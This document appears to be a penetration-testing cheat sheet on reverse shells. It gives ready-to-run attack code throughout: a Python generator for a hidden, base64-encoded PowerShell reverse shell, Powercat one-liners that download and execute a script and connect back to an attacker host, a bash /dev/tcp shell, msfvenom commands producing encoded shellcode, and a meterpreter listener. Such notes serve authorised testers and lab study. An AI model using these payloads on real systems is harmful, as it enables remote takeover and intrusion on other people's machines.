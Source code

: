 ```yaml
---
description: Various reverse shell techniques in fast go cheat-sheet format
---
```


# 🐚 Reverse Shells

### PowerShell Base64

Generate base64 encoded payload for reverse shell for windows target.

{% code title="windows-rev-b64.py" overflow="wrap" %}
```python
import sys
import base64

def generate_payload(ip, port):
    payload = (
        f"$client=New-Object System.Net.Sockets.TCPClient('{ip}',{port});"
        "$stream=$client.GetStream();"
        "[byte[]]$bytes=0..65535|%{0};"
        "while(($i=$stream.Read($bytes,0,$bytes.Length)) -ne 0){"
        "$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);"
        "$sendback=(iex $data 2>&1 | Out-String);"
        "$sendback2=$sendback+'PS '+(pwd).Path+'> ';"
        "$sendbyte=([text.encoding]::ASCII).GetBytes($sendback2);"
        "$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};"
        "$client.Close()"
    )
    return payload

def generate_cmd(ip, port):
    payload = generate_payload(ip, port)
    cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
    return cmd

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Usage: python script.py <ip> <port>")
        sys.exit(1)
    
    ip = sys.argv[1]
    port = sys.argv[2]
    
    cmd = generate_cmd(ip, port)
    print(cmd)

```
{% endcode %}

Usage:

```bash
python windows-rev-b64.py <local_ip> <local_port>
```

### Powercat

Serve Powercat.ps1

```bash
cd /usr/share/windows-resources && python3 -m http.server 80
```

Start a `netcat` listener

```
rlwrap nc -lvnp 4444
```

Run one of the commands:

{% tabs %}
{% tab title="Batch" %}
```batch
powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('http://<local_host>/powercat.ps1'); powercat -c <local_host> -p <local_port> -e powershell"
```
{% endtab %}

{% tab title="Powershell" %}
```powershell
IEX (New-Object System.Net.Webclient).DownloadString("http://<local_host>/powercat.ps1");powercat -c <local_host> -p <local_port> -e powershell 
```
{% endtab %}
{% endtabs %}

### Bash pipe

Base64 Encoded Bash - useful for web shells.

```bash
echo 'bash -i>& /dev/tcp/<ip>/4444 0>&1' | base64
```

### Msfvenom&#x20;

Generating shell code

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f powershell -v sc
```

Generating obfuscated shell code with bad words:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

Start meterpreter listener one-liner

```bash
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST <LHOST>;set LPORT <LPORT>;run;"
```
